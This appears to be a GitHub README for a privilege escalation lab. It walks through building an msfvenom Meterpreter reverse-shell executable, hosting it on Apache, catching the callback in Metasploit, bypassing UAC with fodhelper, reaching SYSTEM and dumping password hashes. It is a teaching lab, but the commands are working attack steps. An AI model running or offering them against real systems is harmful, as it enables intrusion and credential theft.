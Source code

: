 # Privilege Escalation

This repository demonstrates a hands-on lab for privilege escalation on a vulnerable Windows machine using a Kali Linux attacker machine. The lab showcases how to exploit vulnerabilities to gain higher privileges and includes detailed steps for exploitation and escalation.

---

## Objectives

* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.
* Perform exploitation using Metasploit Framework.
* Understand how to bypass User Account Control (UAC) and gain elevated privileges.

---

## Prerequisites

* **Kali Linux** virtual machine with networking configured.
* **Windows 10** virtual machine with networking configured.
* Both VMs must be on the same network and have connectivity.

---

## Workflow

### 1. Setup Apache to Share Exploit File

Run the script to configure Apache and set up the shared folder for delivering the malicious payload.

```bash
./setup_apache.sh
```

This will:

* Install Apache if not already installed.
* Configure the Apache server to host a directory for sharing files.
* Copy the malicious payload `Exploit.exe` to the shared directory.

### 2. Create the Exploit File

Generate the malicious payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<KALI_IP> -f exe > Desktop/Exploit.exe
```

Replace `<KALI_IP>` with your Kali machine's IP address.

### 3. Start Apache Server

Ensure Apache is running:

```bash
sudo service apache2 start
```

The malicious payload will be accessible via `http://<KALI_IP>/share/Exploit.exe`.

### 4. Start Metasploit Handler

Prepare Kali to catch the connection when the victim runs the payload:

1. Open a terminal and start Metasploit:

   ```bash
   msfconsole
   ```

2. Run the following commands in Metasploit:

   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <KALI_IP>
   exploit -j -z
   ```

This starts the listener and prepares to catch incoming connections from the victim machine.

### 5. Perform Exploitation

On the Windows 10 victim machine:

1. Open a browser and navigate to: `http://<KALI_IP>/share/`.
2. Download and run `Exploit.exe`. If prompted with a security warning, click **Run**.

### 6. Meterpreter Session

After the victim executes the payload, a Meterpreter session will open on Kali. Use the following commands:

* List active sessions:

  ```
  sessions
  ```

* Interact with the session:

  ```
  sessions -i <ID>
  ```

Replace `<ID>` with the session ID displayed in the `sessions` command output.

### 7. Privilege Escalation

To escalate privileges:

1. Attempt privilege escalation:

   ```
   getsystem
   ```

2. If this fails, bypass User Account Control (UAC):

   ```
   use exploit/windows/local/bypassuac_fodhelper
   set SESSION <ID>
   run
   ```

3. Once UAC is bypassed, re-run `getsystem`:

   ```
   getsystem
   ```

4. Verify elevated privileges:

   ```
   getuid
   ```

   You should see: `NT AUTHORITY\SYSTEM`.

---
### 8. Dump Password Hashes
run post/windows/gather/smart_hashdump

## Repository Structure

```plaintext
.
├── setup_apache.sh      # Script to set up Apache and share malicious payload.
├── metasploit_commands.sh  # Script containing Metasploit commands.
├── README.md            # Detailed lab documentation.
```

---

## Notes

* Ensure both VMs are on the same network and can communicate.
* For educational purposes only. Do not use these techniques on unauthorized systems.

---

